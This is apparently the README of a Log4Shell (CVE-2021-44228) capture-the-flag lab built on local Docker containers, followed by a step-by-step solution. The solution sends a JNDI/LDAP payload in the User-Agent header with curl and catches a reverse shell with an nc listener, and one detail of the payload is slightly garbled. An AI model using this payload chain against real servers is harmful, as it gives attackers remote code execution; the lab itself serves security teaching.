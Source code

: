 This repo is to be used for educational purposes only, and is intended to be run against your own machine. We do not condone the use of these skills/techniques outside of this lab environment. DO NOT change any files or commands; run exactly as described in “Starting the Lab Environment".


**Scenario**

A local kitten daycare has recently suffered a zero-day exploit resulting in full system compromise via RCE (remote code execution). A digital forensics team investigating the incident has created a LAB environment meant to serve as a proof-of-concept for what happened. Can you replicate what happened that fateful day for the local kitten daycare?



**Pre-Requisites**
1.    Docker Desktop – https://www.docker.com/products/docker-desktop/ 
2.    Git – https://git-scm.com/book/en/v2/Getting-Started-Installing-Git 



**Starting the Lab Environment**

1.    Open Docker Desktop 
2.    Run '**git clone https://github.com/sgwgsw/Rowdyhacks2022-CTF.git**' in a terminal window.
3.    Change to the Rowdyhacks2022-CTF folder and run '**docker compose up -d**' with admin/sudo privileges. This is done on your local machine, not Docker Desktop.
4.    Once the command has finished running, select 'Containers / Apps' in Docker Desktop to confirm all containers in the stack are running


**Hints**

1.    To start a Docker CLI session, hover over the container in 'Containers / Apps' on Docker Desktop and click the 'CLI' button. **DO NOT open CLI sessions by other means.**
2.    You will not need a CLI session on web_server (remember - this would be the victim's web server which we are trying to hack. An attacker wouldn't have access to this system).  
3.    Use '**ping -c 1 <container_hostname>**' to get the IP of any container. Hostnames are: web_server, http_server, ldap_server, c2_instance, curl_instance
4.    The web_server container is running a Tomcat web server instance 8080. Log4j 2.14.0 is in-use.
5.    The curl_instance container will be useful for sending the exploit.
6.    The c2_instance container has netcact. 
7.    The ldap_server container is hosting the reference object, 'Exploit'.
8.    The http_server container is hosting compiled java code. This code wants to communicate on port 9999. 



**WHEN YOU ARE FINISHED**
1.    Close any CLI/terminal sessions
2.    Click the stop button in 'Containers / Apps' on Docker Desktop
3.    Run 'docker system prune -a' on the host machine, and press 'y' when prompted
4.    Delete the cloned Log4j_LAB-Docker repo/folder on your machine


**Solution** - 

There are several approaches to solving this CTF. Here is one successful approach to our CVE-2021-44228 challenge. 

1.    Open a CLI session on the curl_instance container. Do this through Docker Desktop by selecting the ‘CLI’ button next to the curl_instance container.

2.    Open a CLI session on the c2_instance container.

3.    Run ‘ping -c 1 web_server’ in curl_instance or c2_instance to get the IP address of the vulnerable web server. 

4.    In c2_instance, run ‘nc -nlvp 9999’. The instructions stated that the compiled java code would want to talk on port 9999. We need to open a listener on that port to receive the java code, which is a reverse shell. 

5.    In curl_instance, we will send the exploit payload. Run curl -A "'\'{jndi:ldap://ldap_server:1389/Exploit}" http://<web_server_IP>:8080, where <web_server_IP> is the IP address recovered from step 3 above. [1] When this payload is received by web_server, instead of Log4J logging the header it will make a connection to ldap_server on port 8080, asking for the Exploit reference object. [2] ldap_sever then queries the reference object which links out to http_server hosting the java code. [3] The reverse shell is sent to web_server and opened on c2_instance. 

6.    Run ‘find / -name flag.txt’ in c2_instance, which is now a reverse shell executing these commands on web_server. 

7.    Run ‘cat /usr/local/tomcat/flag.txt’ to print the flag. This location will be output from step 6 above. 
